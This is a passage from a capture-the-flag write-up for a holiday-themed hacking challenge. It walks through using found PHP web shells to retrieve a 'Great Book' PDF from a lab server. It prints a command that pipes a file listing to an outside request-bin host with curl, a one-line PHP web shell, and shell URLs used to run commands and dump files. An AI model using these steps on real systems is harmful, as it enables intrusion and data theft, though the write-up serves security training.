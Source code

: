
```
Command: find -name \'*.php\' 2>&1 | curl --data-urlencode @- "https://requestb.in/[BIN_ID]"

[...]
./tmp/dillydilly1337.php
./var/www/html/.b0w7Q9w081A909Y8GzA7.php
./var/www/html/.VaZQaWt70e4dVAS0g0TS.php
./var/www/html/dillydilly1337.php
./var/www/html/process.php
./var/www/html/.K2tN5T3RX2x6j2NnZ3W1.php
[...]


Command: cat ./var/www/html/.K2tN5T3RX2x6j2NnZ3W1.php | base64

PD9waHAgZWNobyAiPHByZT4iIC4gc2hlbGxfZXhlYygkX0dFVFtlXSkgLiAiPC9wcmU+IjsgPz4=
```

The `.K2tN5T3RX2x6j2NnZ3W1.php` seems to be a simple enough web shell:

```php
<?php echo "<pre>" . shell_exec($_GET[e]) . "</pre>"; ?>
```

We find the shell by visiting https://l2s.northpolechristmastown.com/.K2tN5T3RX2x6j2NnZ3W1.php. Notice that we are now 
back on the "main" site and no longer on the java-based dev domain. 


## What is the topic of The Great Book page available in the web root of the server?
The first question of the task should now be simple,
we have a shell and can run commands. Let's first find and extract the great book chapter:

```
$ ls -la
https://l2s.northpolechristmastown.com/.K2tN5T3RX2x6j2NnZ3W1.php?e=ls%20-la

total 1812
drwxrwxrwt 6 www-data           www-data              4096 Dec 16 10:18 .
drwxr-xr-x 3 root               root                  4096 Oct 12 14:35 ..
                                [...]
-rw-r--r-- 1 alabaster_snowball alabaster_snowball      56 Dec 16 03:44 .K2tN5T3RX2x6j2NnZ3W1.php
-r--r--r-- 1 root               www-data           1764298 Dec  4 20:25 GreatBookPage2.pdf
                                [...]

$ base64 GreatBookPage2.pdf
https://l2s.northpolechristmastown.com/.K2tN5T3RX2x6j2NnZ3W1.php?e=base64%20GreatBookPage2.pdf

[...]
```

We then decode the base64 locally, giving us the [GreatBookPage2.pdf](book/GreatBookPage2.pdf)!
The topic of the Great Book is "On The Topic Of Flying Animals". We also make sure to enter
its sha1 hash (`aa814d1c25455480942cb4106e6cde84be86fb30`) on the Stocking page to add it to
our stocking.
